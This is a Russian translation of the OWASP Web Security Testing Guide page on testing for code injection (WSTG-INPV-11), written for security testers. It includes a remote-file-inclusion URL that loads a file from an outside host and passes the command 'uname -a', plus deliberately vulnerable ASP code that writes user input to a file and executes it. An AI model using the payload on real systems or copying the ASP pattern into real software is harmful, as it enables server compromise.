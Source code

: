 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование инъекции кода

|ID          |
|------------|
|WSTG-INPV-11|

## Обзор

В этом разделе описывается, как тестировщик может проверить, можно ли ввести код в качестве входных данных на web-странице и выполнить его на web-сервере.

При тестировании [инъекции кода](https://owasp.org/www-community/attacks/Code_Injection) тестировщик отправляет входные данные, которые обрабатываются web-сервером как динамический код или как включенный файл. Эти тесты могут быть нацелены на различные серверные скриптовые фреймворки, например, ASP или PHP. Для защиты от этих атак необходимо использовать надлежащий контроль входных данных и методы безопасной разработки.

## Задачи тестирования

- Найти точки для инъекции, где вы можете вставить код в приложение.
- Оценить воздействие инъекции.

## Как тестировать

### Тестирование методом чёрного ящика

#### Тестирование уязвимостей PHP-инъекций

Используя строку запроса, тестировщик может ввести код (в данном примере вредоносный URL), который будет обработан как часть включенного файла:

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

> Вредоносный URL принимается в качестве параметра для страницы PHP, которая позже будет использовать это значение во включенном файле.

### Тестирование методом серого ящика

#### Тестирование на наличие уязвимостей для инъекции кода ASP

Проанализируйте код ASP на предмет пользовательского ввода в функциях выполнения. Может ли пользователь вводить команды в поле ввода данных? Здесь код ASP сохранит входные данные в файл, а затем выполнит его:

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### Ссылки

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipedia](https://en.wikipedia.org/wiki/Code_injection)
- [Reviewing Code for OS Injection](https://wiki.owasp.org/index.php/OS_Injection)
